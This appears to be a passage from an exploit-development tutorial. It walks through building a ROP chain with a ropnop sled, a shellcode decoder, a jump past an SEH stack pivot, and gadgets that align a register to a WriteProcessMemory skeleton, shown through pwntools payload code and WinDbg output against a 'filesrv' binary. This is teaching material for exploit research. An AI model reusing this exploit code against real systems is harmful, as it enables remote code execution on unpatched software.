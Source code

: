 Now it’s time to replace the dummy values for the call to WriteProcessMemory we placed on the very top of our buffer on the stack. We don’t have much room after our rop decoder & before our stack pivot gadget – so we will fill up with ropnops (just ret instructions) and jump over our gadget as follows:

```python
rop1 = b""
# add skeleton
for g in skeleton:
      rop 1+= p32(g)
# add ropnops (stack pivot not exact)
rop1 += p32(binary_base + 0x159d)*(24) # ropnop
# add rop shellcode decoder
rop1 += rop_decoder()
# fill up with ropnops until pivot gadget
for i in range(0, offset-len(rop)-4, 4):
      rop1 += p32(0x159d + binary_base) # ropnop
# jump over pivot gadget
rop1 += p32(0x3da53 + binary_base) # add esp, 0x10; ret;

log.info("Sending payload..")
buf  = b""
buf += b"LST "
buf += rop1
buf += b"B" * 4
buf += pivot
buf += b"D" * (size-len(buf))
p.sendline(buf)
```

```
0:003> dd esp L100
...
0112f710  3fab159d 3fab159d 3fab159d 3fab159d
0112f720  3faeda53 3fac1396 3fac1396 44444444 <- Jump over SEH entry
0112f730  44444444 44444444 44444444 44444444
0:003> ba e1 filesrv+0x3da53
0:003> g
filesrv+0x3da53:
3faeda53 83c410          add     esp,10h
0:003> dd esp
018ff820  3fac1396 3fac1396 44444444 44444444
```

This leaves us now in the "big" area of our payload where we can write the rop chain to modify the skeleton & also have our shellcode. Our first task is to align a register (here ecx) with our skeleton.

```
0x4CBFB + binary_base,  # pop eax (will be dereferenced by a side effect gadget)
writeable,
0x683da + binary_base,  # push esp ; add dword [eax], eax ; pop ecx; ret; 
0x704F4 + binary_base,  # pop eax; ret;
0x4bb2d + binary_base,  # 0x448 (offset to skeleton on stack)
0x2bb8e + binary_base,  # mov eax, dword ptr [eax]; ret;
0x7609f + binary_base,  # add eax, 4; ret;
0x3039f + binary_base,  # mov edx, eax; mov eax, esi; pop esi; ret;
0x41414141,
0x31564 + binary_base, 	# sub ecx, edx; cmp ecx, eax; sbb eax, eax; inc eax; pop ebp; (add offset to skeleton, ecx holds ptr to skeleton now) 
0x41414141,
```
